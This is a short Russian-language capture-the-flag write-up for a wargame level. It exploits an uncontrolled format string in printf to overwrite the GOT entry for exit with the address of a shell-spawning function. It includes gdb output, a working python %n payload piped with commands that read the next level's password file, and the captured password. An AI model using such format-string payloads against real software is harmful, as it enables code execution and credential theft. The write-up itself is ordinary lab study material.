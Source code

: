 Программа состоит из трех функций:
* `main`
* `n`, которая вызывается из `main`
* `o`, которая вообще не вызывается

Нам нужно заставить программу исполнить функцию `o` , ведь именно она запускает программную оболочку. Мы замечаем, что имеющийся вызов к `printf` с непроверенным пользовательским кодом делает программу уязвимой к атакам [uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string). 

Нам нужно перезаписать [global offset table](https://en.wikipedia.org/wiki/Global_Offset_Table) (GOT), для того, чтобы по окончанию функции `n` оказывалась вызвана функция `o` вместо `exit`.

```sh
$ gdb level5
(gdb) disas n
...
0x080484ff <+61>:	call   0x80483d0 <exit@plt>
(gdb) x/i 0x80483d0
0x80483d0 <exit@plt>:	jmp    *0x8049838
```

Значит, нам нужно записать адрес функции `o` в ячейку памяти `0x8049838`.

Функция `o` находится по адресу `0x080484a4`, что соответствует числу `134513828` в десятичной системе. Как и в level3, буфер, содержащий форматную строку, находятся на расстоянии в `0x218-0x208=0x10` байтов от вершины стека. 

Итого,
```sh
$ (python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"'; echo 'echo; echo start; cd ..; cat level6/.pass') | ./level5 > /tmp/level5_out ; cat /tmp/level5_out | grep -A10 -i start
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```